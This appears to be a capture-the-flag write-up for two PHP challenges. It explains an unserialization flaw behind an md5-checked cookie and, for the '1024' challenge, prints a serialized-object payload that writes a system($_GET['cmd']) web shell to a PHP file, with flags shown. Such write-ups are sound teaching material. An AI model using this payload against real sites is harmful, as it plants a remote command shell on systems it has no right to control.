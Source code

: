 # free-as-in-beer ![c](https://img.shields.io/badge/solved-success)
### Analysis
Let's analyze the source code given to us in the Page. We can clearly see that there is an unserialization of a cookie (looks sooooo bad) when the first 32 chars of the cookie named "todos" are equal to the md5 hash of the last 32 chars.
That is, the PHP code reads the input from the user with a GET, calculates the hash and concatenates it with the raw input, and then sets it as a cookie.

Moreover, we can notice a really interesting object called X with a magic methods __toString() in it (looks even worse).

Knowing that we can try to bypass the hash condition, crafting our cookie, and modify the parameters of the X object in order to read a specific file (we know that the flag is in flag.php).

### Exploit
![Alt text](./cookie_burp.PNG?raw=true "Title")

**flag{This_flAg_1s_really_fr33_a5_in_PhP}**

# 1024 ![c](https://img.shields.io/badge/solved-success)
### Analysis
### Exploit
```
O:7:"Ranking":3:{s:7:"ranking";s:34:"<?php echo system($_GET['cmd']);?>";s:7:"changed";b:1;s:4:"path";s:20:"./games/revshell.php";}
```
![Alt text](./result_1024.PNG?raw=true "Title")

**flag{never_deserialize_user_input!}**
